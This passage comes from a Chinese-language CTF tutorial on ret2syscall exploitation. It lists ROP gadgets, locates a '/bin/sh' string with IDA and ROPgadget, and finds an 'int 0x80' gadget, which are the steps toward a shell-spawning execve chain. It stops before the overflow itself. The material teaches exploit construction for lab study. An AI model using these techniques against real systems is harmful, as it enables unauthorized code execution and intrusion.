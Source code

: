 ```plain
0x0804846e : pop esi ; pop edi ; ret
0x08049a1a : pop esi ; pop edi ; ret 4
0x08049a95 : pop esi ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
```

我们要先获得 eax 的 gadget

```plain
0x080bb196 : pop eax ; ret
```

发现上述 gadget 符合我们的要求，以 ret 为结尾

再找 edx 存储我们的数据，再找 ebx,ecx 赋值为 0

```plain
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

这里找了一个比较符合的 gadget，这里其实就是分别执行

```plain
pop edx
pop ecx
pop ebx
```

[![](assets/1701612384-c713206425e7f0977544ba34685ea53e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629203255-129f691a-1679-1.png)

再找之前我们已知的后门参数/bin/sh 的地址，利用 IDA

```plain
.rodata:080BE408 aBinSh          db '/bin/sh',0          ; DATA XREF: .data:shell↓o
```

也可以利用 ROPgadget

```plain
ROPgadget --binary ret2syscall --string '/bin/sh'
```

最后找 int 80

```plain
ROPgadget --binary ret2syscall --only "int"
```

```plain
0x08049421 : int 0x80
```

这里其实已经具备 ROP 部分了，现在来看栈溢出
